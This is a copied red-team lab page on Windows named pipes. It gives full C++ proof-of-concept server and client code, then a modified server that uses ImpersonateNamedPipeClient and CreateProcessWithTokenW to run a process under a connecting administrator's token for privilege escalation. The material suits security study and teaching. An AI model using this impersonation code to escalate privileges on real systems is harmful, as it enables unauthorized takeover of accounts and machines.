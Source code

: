 # Named Pipe Client Impersonation

**This information was copied from **[**https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation**](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation)****

## Overview

A `pipe` is a block of shared memory that processes can use for communication and data exchange.

`Named Pipes` is a Windows mechanism that enables two unrelated processes to exchange data between themselves, even if the processes are located on two different networks. It's very simar to client/server architecture as notions such as `a named pipe server` and a named `pipe client` exist.

A named pipe server can open a named pipe with some predefined name and then a named pipe client can connect to that pipe via the known name. Once the connection is established, data exchange can begin.

This lab is concerned with a simple PoC code that allows:

* creating a single-threaded dumb named pipe server that will accept one client connection
* named pipe server to write a simple message to the named pipe so that the pipe client can read it

## Code

Below is the PoC for both the server and the client:

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
    LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
    LPVOID pipeBuffer = NULL;
    HANDLE serverPipe;
    DWORD readBytes = 0;
    DWORD readBuffer = 0;
    int err = 0;
    BOOL isPipeConnected;
    BOOL isPipeOpen;
    wchar_t message[] = L"HELL";
    DWORD messageLenght = lstrlen(message) * 2;
    DWORD bytesWritten = 0;

    std::wcout << "Creating named pipe " << pipeName << std::endl;
    serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

    isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
    if (isPipeConnected) {
        std::wcout << "Incoming connection to " << pipeName << std::endl;
    }

    std::wcout << "Sending message: " << message << std::endl;
    WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

    return 0;
}
```
{% endtab %}

{% tab title="namedPipeClient.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
    LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
    HANDLE clientPipe = NULL;
    BOOL isPipeRead = true;
    wchar_t message[MESSAGE_SIZE] = { 0 };
    DWORD bytesRead = 0;

    std::wcout << "Connecting to " << pipeName << std::endl;
    clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    while (isPipeRead) {
        isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
        std::wcout << "Received message: " << message;
    }

    return 0;
}
```
{% endtab %}
{% endtabs %}

## Execution

Below shows the named pipe server and named pipe client working as expected:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22.png>)

Worth nothing that the named pipes communication by default uses SMB protocol:

![](<../../.gitbook/assets/Screenshot from 2019-04-04 23-51-48.png>)

Checking how the process maintains a handle to our named pipe `mantvydas-first-pipe`:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (1).png>)

Similary, we can see the client having an open handle to the named pipe:

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (2).png>)

We can even see our pipe with powershell:

```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (3).png>)

## Token Impersonation

{% hint style="info" %}
Note that in order to impersonate the token of the client process you need to have (the server process creating the pipe) the**` SeImpersonate`** token privilege
{% endhint %}

It is possible for the named pipe server to impersonate the named pipe client's security context by leveraging a `ImpersonateNamedPipeClient` API call which in turn changes the named pipe server's current thread's token with that of the named pipe client's token.

We can update the the named pipe server's code like this to achieve the impersonation - note that modifications are seen in line 25 and below:

```cpp
int main() {
    LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
    LPVOID pipeBuffer = NULL;
    HANDLE serverPipe;
    DWORD readBytes = 0;
    DWORD readBuffer = 0;
    int err = 0;
    BOOL isPipeConnected;
    BOOL isPipeOpen;
    wchar_t message[] = L"HELL";
    DWORD messageLenght = lstrlen(message) * 2;
    DWORD bytesWritten = 0;

    std::wcout << "Creating named pipe " << pipeName << std::endl;
    serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

    isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
    if (isPipeConnected) {
        std::wcout << "Incoming connection to " << pipeName << std::endl;
    }

    std::wcout << "Sending message: " << message << std::endl;
    WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

    std::wcout << "Impersonating the client..." << std::endl;
    ImpersonateNamedPipeClient(serverPipe);
    err = GetLastError();    

    STARTUPINFO    si = {};
    wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
    PROCESS_INFORMATION pi = {};
    HANDLE threadToken = GetCurrentThreadToken();
    CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

    return 0;
}
```

Running the server and connecting to it with the client that is running under administrator@offense.local security context, we can see that the main thread of the named server pipe assumed the token of the named pipe client - offense\administrator, although the PipeServer.exe itself is running under ws01\mantvydas security context. Sounds like a good way to escalate privileges?
